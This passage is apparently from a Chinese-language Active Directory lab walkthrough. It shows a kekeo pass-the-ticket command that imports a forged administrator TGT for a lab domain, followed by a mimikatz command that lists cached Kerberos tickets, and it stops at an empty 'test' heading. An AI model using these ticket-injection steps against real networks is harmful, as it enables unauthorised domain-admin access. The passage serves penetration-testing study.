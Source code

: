 ### 4.5.4. 导入票据

这里导入票据也是一样的，名字是你生成的那个。

```
shell kekeo.exe "kerberos::ptt TGT_administrator@YUTO.COM_krbtgt~yuto.com@YUTO.COM.kirbi" "exit"
```

![image-20230717133253915](assets/48uxJryIcFEDQAV.png)

### 4.5.5. 查看票据

可以看到这里只有我们刚刚生成的一条数据。

```
mimikatz kerberos::list
```

![image-20230717133518794](assets/jC7BfWS6woGq843.png)

### 4.5.6. 测试
